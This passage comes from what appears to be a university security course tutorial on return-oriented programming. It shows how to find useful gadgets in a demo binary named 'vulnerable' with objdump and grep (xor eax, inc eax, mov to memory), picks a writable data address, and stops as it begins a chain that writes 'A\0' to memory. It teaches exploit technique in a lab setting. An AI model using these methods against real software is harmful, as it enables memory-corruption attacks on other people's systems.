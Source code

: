 ``` example

 |  <next gadget >        |
 |   value for edi        |
 |   value for esi        |
 | <pop esi;pop edi; ret> |
```

## Building a useful chain

Let's look for a bit more useful gadgets:

``` example
objdump -d -M intel vulnerable  | grep -B 2 ret | grep -A 2 -B 1 xor
(...)
--
80b80d5:    5d                      pop    ebp
 80b80d6:   31 c0                   xor    eax,eax
 80b80d8:   c3                      ret   
```

This gadget will zero out eax and set the value of ebx! Or if we just
jump to the xor, simply zero out the value for eax. We also need a
gadget to increment the value in eax:

``` example
user@si485H-base:demo$ objdump -d -M intel vulnerable  | grep -B 2 ret | grep -A 2 -B 1 inc 
(...)
--
 805caec:   40                      inc    eax
 805caed:   5f                      pop    edi
 805caee:   c3                      ret    
```

And we need a gadget to write to memory based on a register, something
like `mov DWORD[edx],eax`

``` example
user@si485H-base:demo$ objdump -d -M intel vulnerable  | grep -B 2 ret | grep -A 2 "DWORD PTR \[edx\],eax"
(...)
 809a70d:   89 02                   mov    DWORD PTR [edx],eax
 809a70f:   c3                      ret    
--
```

Now we have everything we need except a place to write to. For that, we
can use any old place in the data segment. It turns out 0x080ea060 is
perfect for that.

## Write an "A\\0" to memory ROP chain

If we can find the *right* gadgets, then writing a ROP chain to just
write "A\\0" to a memory location is actually rather straight forward.
It should look something like this:
